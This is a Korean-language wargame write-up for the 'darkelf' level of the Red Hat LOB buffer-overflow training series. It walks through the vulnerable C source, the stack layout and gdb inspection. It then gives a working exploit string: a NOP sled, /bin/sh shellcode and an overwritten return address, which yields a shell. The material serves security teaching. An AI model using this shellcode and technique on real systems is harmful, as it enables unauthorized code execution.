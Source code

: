 ============================================================================================================
[redhat-lob] darkelf
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1]"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="argv[1] address"];
    }


|

Source Code
============================================================================================================

lob 문제의 경우 소스코드가 공개되어 있으며, 소스코드는 다음과 같다.

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.
사이즈가 40바이트인 char 형 변수 배열 buffer가 선언되어 있는데, argv[1][47]=="\\bf"와 argv[1] 길이가 47이하 조건을 만족하면 오버플로우가 발생한다.


.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte) <- strcpy overflow
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================


|

Buffer Overflow
============================================================================================================

strcpy에서 argv[1] 인자 값을 통해 buffer 변수에 입력될 때, argv[1][47]=="\\bf"와 argv[1] 길이가 47이하 조건을 만족하고 값이 버퍼보다 클 경우 오버플로우가 발생된다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행.

.. code-block:: console

    $ ./darkelf `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./darkelf `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================


기존 문제들의 경우 환경 변수에 쉘코드를 삽입하여 해당 영역으로 RET를 할 수 있었으나, 해당 문제는 environ을 초기화하여 환경 변수 사용이 불가능하다.


argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/wolfman/darkelf2 `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffad8       -1073743144

    (gdb) i reg $ebp
    ebp            0xbffffaf8       -1073743112

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffad8:     0xbffffaf8      0x400309cb      0x00000002      0xbffffb24
    0xbffffae8:     0xbffffb30      0x40013868      0x00000002      0x08048450
    0xbffffaf8:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb08:     0xbffffb24      0x08048390      0x0804864c      0x4000ae60
    0xbffffb18:     0xbffffb1c      0x40013e90      0x00000002      0xbffffc1a
    0xbffffb28:     0xbffffc31      0x00000000      0xbffffc62      0xbffffc84
    0xbffffb38:     0xbffffc8e      0xbffffc9c      0xbffffcbb      0xbffffccb
    0xbffffb48:     0xbffffce4      0xbffffd00      0xbffffd1f      0xbffffd2a
    0xbffffb58:     0xbffffd38      0xbffffd7a      0xbffffd8d      0xbffffda2
    0xbffffb68:     0xbffffdb2      0xbffffdbf      0xbffffddd      0xbffffde8
    0xbffffb78:     0xbffffdf9      0xbffffe0b      0xbffffe1a      0xbffffe22
    0xbffffb88:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffb98:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffba8:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffbb8:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffbc8:     0x000001f9      0x0000000c      0x000001f9      0x0000000d
    0xbffffbd8:     0x000001f9      0x0000000e      0x000001f9      0x00000010
    0xbffffbe8:     0x0fabfbff      0x0000000f      0xbffffc15      0x00000000
    0xbffffbf8:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc08:     0x00000000      0x00000000      0x00000000      0x38366900
    0xbffffc18:     0x682f0036      0x2f656d6f      0x666c6f77      0x2f6e616d
    0xbffffc28:     0x6b726164      0x32666c65      0x61616100      0x61616161
                                                          ^               ^
    0xbffffc38:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^               ^ argv[1] = 0xbffffc41
    0xbffffc48:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc58:     0x61616161      0x61616161      0x454c00bf      0x504f5353
    ==========================================================================

|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode
    SFP     (4byte)  <- shellcode
    RET     (4byte)  <- argv[1] address
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[1] 주소로 변경하여 해당 쉘코드가 실행되도록 한다. buffer의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./darkelf `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x41\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀A▒▒▒

    bash$ whoami
    darkelf
    bash$ my-pass
    euid = 506
    kernel crashed

